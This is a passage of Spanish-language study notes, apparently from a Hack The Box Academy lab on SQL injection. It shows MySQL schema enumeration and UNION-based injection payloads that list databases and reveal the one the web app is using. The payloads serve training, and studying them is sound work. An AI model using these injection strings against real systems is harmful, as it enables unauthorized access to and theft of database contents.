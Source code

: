 <br>

    mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

    +--------------------+
    | SCHEMA_NAME        |
    +--------------------+
    | mysql              |
    | information_schema |
    | performance_schema |
    | ilfreight          |
    | dev                |
    +--------------------+
    6 rows in set (0.01 sec)

<br>

Veamos la base de datos "ilfreight" y "dev".

<br>

    NOTA: Las 3 primeras bases de datos son predeterminadas de MYSQL y estan siempre presentes en cualquier servidor, por lo que generalmente las ignoramos durante la enumeracion de la base de datos. A veces tambien hay una cuarta base de datos llamada "sys".

<br>

Ahora, hagamos lo mismo usando una inyeccion SQL de UNION en el ejemplo con el siguiente payload:

<br>

    cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

<br>

![](https://academy.hackthebox.com/storage/modules/33/ports_dbs.png)

<br>

Una vez mas, vemos dos bases de datos, ilfreight y dev, aparte de las predeterminadas. Veamos que base de datos esta utilizando la aplicacion web para recuperar los datos en la tabla. Podemos encontrar la base de datos en uso utilizando "SELECT database()". Podemos hacer esto de manera similar a como encontramos la version del DBMS en la seccion anterior.

<br>

    cn' UNION select 1,database(),2,3-- -

<br>

![](https://academy.hackthebox.com/storage/modules/33/db_name.jpg)

<br>

Veamos que el nombre de la base de datos en uso es ilfreight, Sin embarg parece que en la otra base de datos (dev) tambien hay informacion importante, intentemos recuperar las tablas de el.
